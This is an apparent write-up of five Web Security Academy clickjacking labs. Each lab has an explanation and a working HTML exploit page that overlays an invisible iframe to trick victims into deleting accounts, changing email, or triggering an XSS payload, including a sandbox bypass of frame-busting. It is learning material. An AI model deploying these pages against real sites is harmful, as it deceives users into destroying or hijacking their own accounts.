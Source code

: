 1. This lab is a basic clickjacking example where the goal is to enduce the victim into deleting their account. The following page on the exploit server worked in my case to make the work `Click` line up with the delete account button (change the opacity to `0.5` if you want to see what is happening):
```
<style>
    iframe {
        position:relative;
        width:500px;
        height: 700px;
        opacity: 0.00001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:500px;
        left:60px;
        z-index: 1;
    }
</style>
<div>Click</div>
<iframe src="https://acfb1fbf1ec19ac6c063a0d400a0001c.web-security-academy.net/my-account"></iframe>
```
2. This lab is the same as the previous, but is instead trying to change the victim's email. This can be done because the site allows pre-filling the form via the `email` GET parameter. As such, the following exploit works:
```
<style>
    iframe {
        position:relative;
        width:500px;
        height: 700px;
        opacity: 0.000001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:450px;
        left:60px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://ac421f791f95da94c06574a500c5005a.web-security-academy.net/my-account?email=fake@email.com"></iframe>
```
3. This lab is the same as the previous, but it uses javascript in order to prevent the page from being framed. It does so by checking if the current page is the top level page, and if not overriding the page contents with an error message. However, by using iframe sandboxing, we can prevent that javascript from ever being run. This results in the following exploit:
```
<style>
    iframe {
        position:relative;
        width:500px;
        height: 700px;
        opacity: 0.000001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:450px;
        left:60px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://acd51fca1fbaf41fc177033e001100d4.web-security-academy.net/my-account?email=fake@email.com" sandbox="allow-forms"></iframe>
```
4. This lab has DOM based XSS in the feedback submission form. When it is submitted, the name field is reflected into the page in an unsafe manner. Because this form support prefilling, it is susceptible to a clickjacking based XSS attack. The following payload sets up the clickjacking attack:
```
<style>
    iframe {
        position:relative;
        width:500px;
        height: 700px;
        opacity: 0.00001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:625px;
        left:60px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://ac541f841f68b04bc0e021d2001e008e.web-security-academy.net/feedback?name=%3Cimg%20src=x%20onerror=print()%3E&email=asdf@asdf.asdf&subject=asdf&message=asdf#feedbackResult"></iframe>
```
When the `Click me` text is clicked, the XSS will trigger and call the `print` function from within the context of the target website
5. This lab is similar to the previous, but the delete account functionality has a confirmation button in order to make clickjacking harder. As such, there must be 2 decoy on the page, one which overlaps with the initial button and a second that lines up with the confirmation button. The following exploit sets up the attack:
```
<style>
	iframe {
		position:relative;
		width:500px;
		height: 700px;
		opacity: 0.0001;
		z-index: 2;
	}
   .firstClick, .secondClick {
		position:absolute;
		top:500px;
		left:50px;
		z-index: 1;
	}
   .secondClick {
		top:290px;
		left:220px;
	}
</style>
<div class="firstClick">Click me first</div>
<div class="secondClick">Click me next</div>
<iframe src="https://ac651fab1ed9b18cc19686d90052002e.web-security-academy.net/my-account"></iframe>
```
